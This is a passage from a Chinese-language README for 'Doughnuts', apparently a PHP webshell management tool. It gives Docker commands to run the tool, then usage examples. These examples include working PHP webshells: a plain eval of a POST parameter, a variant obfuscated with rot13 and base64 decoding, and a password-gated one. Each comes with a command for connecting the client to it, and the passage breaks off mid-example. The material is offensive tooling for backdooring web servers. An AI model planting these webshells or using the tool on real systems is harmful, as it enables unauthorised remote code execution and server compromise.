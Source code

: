 - 使用docker

```bash
# 启动一个doughnuts容器
docker run --name doughnuts -itd longlone/doughnuts
# 执行doughnuts容器的bash
docker exec -it doughnuts bash
# 在容器中运行doughnuts,这样你可以存储webshell记录等
doughnuts

# 或者直接执行doughnuts
docker run --rm -it longlone/doughnuts:cli
```

## 使用例子

*由于windows原因，在windows命令行连接下不支持&符号连接参数。
尽量将额外参数包裹引号进行传递，且逐一拆分。
好的习惯:"data:a=123" "data:b=456"
坏的习惯:"data:a=123&b=456" (在windows命令行下会连接失败)*

1. 普通webshell:

    - 最平凡的webshell:

        ```php
        //test1.php
        <?php
        error_reporting(0);
        eval($_POST['2333']);
        ?>
      ```
      那么只需要运行Doughnuts.py,并输入以下命令,即可成功连接至webshell:
      ```
      connect http://localhost/test1.php POST 2333
      ```
      
    - 带解码的webshell:

        ```php
        //test2.php
        <?php
        error_reporting(0);
        eval(str_rot13(base64_decode($_REQUEST['2333'])));
        ?>
      ```
      那么只需要运行Doughnuts.py,并输入以下命令,即可成功连接至webshell:
      
      ```
      connect http://localhost/test2.php POST 2333 rot13 base64
      ```
      
    - 需要额外参数与解码的webshell:

        ```php
        //test3.php
        <?php
        if(@md5($_POST['a']) == "202cb962ac59075b964b07152d234b70"){  // a=123
        	@eval(base64_decode($_POST['2333']));
        }
        ```
